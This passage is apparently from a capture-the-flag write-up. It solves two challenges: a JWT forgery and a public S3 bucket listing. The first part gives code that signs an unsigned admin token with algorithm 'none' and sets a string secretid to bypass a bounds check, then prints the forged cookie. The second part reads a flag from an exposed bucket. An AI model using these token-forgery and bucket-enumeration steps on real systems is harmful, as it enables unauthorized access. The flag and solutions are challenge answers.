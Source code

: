 If we try it we have an error : "jwt signature is required" . Searching it in the jsonwebtoken source code: 
```javascript
    if (!hasSignature && secretOrPublicKey){
      return done(new JsonWebTokenError('jwt signature is required'));
    }
```
So we need a falsish *secrets[sid]*.
So we need to bypass the first control : if (sid==undefined || sid>=secrets.length || sid<0) {
This control considers sid as an integer. But JWT is a json file so we can bypass it by setting a string.

```javascript
let cookie = jwt.sign({
        perms: "admin", //the goal is to be admin
        secretid: "a", //we can change it
        rolled: "no"
      }, crypto.randomBytes(32), { algorithm: "none"  });
```

and testing it: it is a  WIN !
The cookie to set : 'eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJwZXJtcyI6ImFkbWluIiwic2VjcmV0aWQiOiJhIiwicm9sbGVkIjoibm8iLCJpYXQiOjE2MDYxNDAyMTl9.'



# Super Secret Storage

## The challenge

I uploaded a flag in my Super Secret Storage. Will you find it? I bet you won't ... Even the Police won't be able to find it!

Super Secret Storage : http://somuchfuninthebucket.s3-website-ap-southeast-1.amazonaws.com/

## Writeup

The site url is http://somuchfuninthebucket.s3-website-ap-southeast-1.amazonaws.com/
thats means it's on S3.
So going directly to the bucket:

http://somuchfuninthebucket.s3.ap-southeast-1.amazonaws.com/

we can see the content : youfoundme-bchwye7u82739ru0hf:

http://somuchfuninthebucket.s3.ap-southeast-1.amazonaws.com/youfoundme-bchwye7u82739ru0hf

and got :axactf{s3_p0l1c13s_4r3_s0_much_fun}